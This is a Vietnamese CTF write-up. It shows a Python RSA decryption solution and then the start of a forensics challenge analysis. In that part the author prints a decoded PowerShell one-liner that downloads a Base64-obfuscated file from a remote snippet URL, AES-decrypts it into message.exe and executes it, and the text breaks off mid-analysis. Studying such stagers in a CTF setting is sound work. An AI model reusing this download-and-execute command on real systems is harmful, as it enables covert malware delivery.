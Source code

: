 Cuối cùng giải mã nó: `m = pow(c, d, N)`  chuyển về thành dạng byte 
```python
from Crypto.Util.number import long_to_bytes
plaintext = long_to_bytes(m)
```

Code:
```python
from Crypto.Util.number import inverse, long_to_bytes
N = 57003853477618592533708139357440215706141092564456154826439718767682290353899
e = 65537
c = 16088604257693894556768626620517616259596646357071343869173417352209986726562

p = 228337825920501024345892620188308555741
q = 249647001095058483196231850349361480039


phi = (p - 1) * (q - 1)
d = inverse(e, phi)
m = pow(c, d, N)
plaintext = long_to_bytes(m)
print("Flag:", plaintext.decode(errors="ignore"))
```

Cuối cùng tìm được flag.

FLAG: *BMCTF{S1z3_Matt3r5}*


## 🕵️‍♂️Forensics/Disk Message

### 1. Challenge Information

```
Point : Null
Author : Null
Solve by : Tuấn Anh
```

### 2. Solution
Tải attachments cho Disk Message tại [đây](https://github.com/log1cs/writeups/tree/bside-ctf-2025/attachments/DiskMessage).

Decode string Base64 trong file `disk.enc` ra bằng CyberChef, apply 2 options sau:
- From Base64
- Remove null bytes

Chúng ta sẽ nhận được output như dưới:

```
$e=(new-object Net.WebClient).DownloadString([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('aHR0cHM6Ly9naXRsYWIuY29tLy0vc25pcHBldHMvNDg2NzQyOC9yYXcvbWFpbi91cGRhdGUuZW5j')));$ed=[System.Convert]::FromBase64String($e);$maes=new-object "System.Security.Cryptography.AesManaged";$maes.IV=$ed[0..15];$maes.Mode=[System.Security.Cryptography.CipherMode]::CBC;$maes.KeySize=256;$maes.BlockSize=128;$maes.Padding=[System.Security.Cryptography.PaddingMode]::PKCS7;$maes.Key=[System.Security.Cryptography.HashAlgorithm]::Create('sha256').ComputeHash([System.Text.Encoding]::UTF8.GetBytes((& cmd /c vol).Split()[-1].Trim()));$dc=$maes.CreateDecryptor();$dm=$dc.TransformFinalBlock($ed, 16, $ed.Length - 16);Set-Content -Path "message.exe" -Value $dm -AsByteStream -NoNewline;.\message.exe
```
Ở đây chúng ta lại có thêm 1 string Base64 khác (`aHR0cHM6Ly9naXRsYWIuY29tLy0vc25pcHBldHMvNDg2NzQyOC9yYXcvbWFpbi91cGRhdGUuZW5j`), tiếp tục decode tiếp và chúng ta sẽ có được output là 1 đường link dẫn tới [1 file khác](https://gitlab.com/-/snippets/4867428/raw/main/update.enc).
Và file này lại được encode bằng Base64, chúng ta lại decode tiếp lần nữa: